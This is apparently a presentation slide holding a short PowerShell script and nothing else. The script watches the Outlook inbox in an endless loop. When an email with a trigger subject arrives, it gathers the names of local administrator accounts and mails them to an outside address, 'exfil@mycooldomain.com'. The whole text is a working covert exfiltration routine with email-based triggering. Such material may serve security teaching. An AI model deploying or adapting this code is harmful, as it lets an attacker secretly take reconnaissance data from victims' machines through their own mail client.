

function Get-LocalInfo(){
    $users = (Get-LocalGroupMember "Administrators" | Select -ExpandProperty Name)
    $outlook = New-Object -ComObject Outlook.Application
    $mail = $outlook.CreateItem(0)
    $mail.subject = "I HAZ YOUR DATA"
    $mail.body = "$users"
    $mail.to = "exfil@mycooldomain.com"
    $mail.Send()
}
do {
    $outlook = New-Object -ComObject Outlook.Application
    $ns = $outlook.GetNamespace("MAPI")
    $inbox = $ns.GetDefaultFolder(6)
    $latestemail = $inbox.items | Select -last 1

    if ($latestemail.subject -like "*INNOCENT SUBJECT LINE*") {
        Get-LocalInfo()
        Exit
    }

} while($true)